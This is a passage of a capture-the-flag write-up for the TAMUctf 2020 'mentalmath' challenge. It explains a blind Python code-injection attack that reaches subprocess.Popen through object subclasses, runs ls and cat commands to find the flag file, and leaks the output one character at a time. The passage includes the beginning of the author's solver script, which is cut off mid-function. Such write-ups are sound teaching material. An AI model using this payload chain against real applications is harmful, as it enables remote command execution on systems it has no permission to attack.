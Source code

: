 ```
HTTP/1.1 200 OK
Server: nginx/1.16.1
Date: Sat, 21 Mar 2020 00:19:55 GMT
Content-Type: application/json
Content-Length: 39
Connection: close
X-Frame-Options: SAMEORIGIN

{"correct": true, "problem": "20 - 58"}
```

So at this point I started a (stupid) "blind" approach, similar to the ones you normally use in SSTI vulnerabilities:
1. enumerate `mro_index` and `subclasses_index` into `''.__class__.mro()[mro_index].__subclasses__()[subclasses_index]` structure in order to find where `subprocess.Popen` class is located, using `ord(list(str())[char_index])` functions to exfiltrate one char at a time; `subprocess.Popen` was at `''.__class__.mro()[1].__subclasses__()[208]`;
2. enumerate server directories launching `ls` commands via `''.__class__.mro()[1].__subclasses__()[208]('command_to_launch',shell=True,stdout=-1).communicate()[0].strip()` in order to find the flag file; results are read one char at a time with `ord(list(str())[char_index])` functions;
3. print the flag reading one char at a time with the `cat /code/flag.txt` command.

I scripted everything in a [multi-threaded Python script](mentalmath-solver.py).

```python
#!/usr/bin/python

import requests
import string
import time
import _thread

debug = True

target_url = "http://mentalmath.tamuctf.com/ajax/new_problem"
headers = {
   "User-Agent": "Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US);", 
   "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
   "X-Requested-With": "XMLHttpRequest",
   "Accept-Encoding": "gzip, deflate, br",
   "Origin": "http://mentalmath.tamuctf.com",
   "Referer": "http://mentalmath.tamuctf.com/play/",
}


def log_debug(scope, message):
    if debug:
        print("   DEBUG ({}) | {}".format(scope, message))


def check_python_class(searched_class, mro_index, subclass_index):
    #log_debug(searched_class, "search python class > {} in mro={}, subclass={}".format(searched_class, mro_index, subclass_index))
    
    output = ""
    found_chars = 0
    char_index = 8
    for c in searched_class:
        data = {"problem": "ord(list(str(''.__class__.mro()[{}].__subclasses__()[{}]))[{}])".format(mro_index, subclass_index, char_index), "answer": "{}".format(ord(c))}
        #log_debug(searched_class, data)
        
        response = None
        response_ok = False
```